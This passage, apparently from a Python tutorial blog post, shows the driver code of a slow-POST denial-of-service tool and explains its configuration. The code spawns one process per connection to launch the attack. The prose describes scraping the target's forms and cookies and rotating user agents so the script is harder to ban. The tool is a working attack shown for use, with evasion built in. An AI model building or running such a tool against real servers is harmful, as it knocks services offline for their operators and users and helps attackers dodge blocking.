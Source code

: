             headers = craft_headers(configs['path'],
                                configs['host'],
                                random.choice(configs['user_agents']),
                                configs['param'],
                                configs['cookies'])

            # launch attack as child process
            p = Process(target=launch_attack, args=(i, configs, headers))
            p.start()
            connections.append(p)

        # wait for all processes to finish or user interrupt
        for c in connections:
            c.join()

    except KeyboardInterrupt:

        # terminate all connections on user interrupt
        print '\n[!] Exiting on User Interrupt'
        for c in connections:
            c.terminate()
        for c in connections:
            c.join()
{% endhighlight %}

The first thing that we're going to do in our driver code is create a config dictionary using configure(). Our configs dictionary will contain the following 8 items that will be used in our driver code:

- __configs['connections']__ - How many simultaneous connections to make to the target.

- __configs['path']__ - The relative path of the target url. We need this information in order to craft HTTP headers from scratch.

- __configs['host']__ - The domain name of the target URL. Once again, we'll be using this information to create valid HTTP headers to send to the target.

- __configs['port']__ - The port at which to send our HTTP requests.

- __configs['target']__ - The URL to which we will be making our slow POST requests. This is obtained by scraping the target URL provided by the user for html forms, then parsing the form's 'action' attribute.

- __configs['cookies']__ - Any cookies required by the target server. We obtain these in the configure() function by making a GET request to the target server, then checking the response headers for the 'Set-Cookie' field.

- __configs['param']__ - We will need a valid POST parameter in which to send our data. As we did with our 'target' config, configure() obtains this information by scraping the target for html forms, extracting an html input tag, then parsing the input tag's 'name' parameter.

- __configs['user_agents']__ - A list of user agents for use in our http headers. We'll be setting a different user agent per connection to make our script harder to ban.
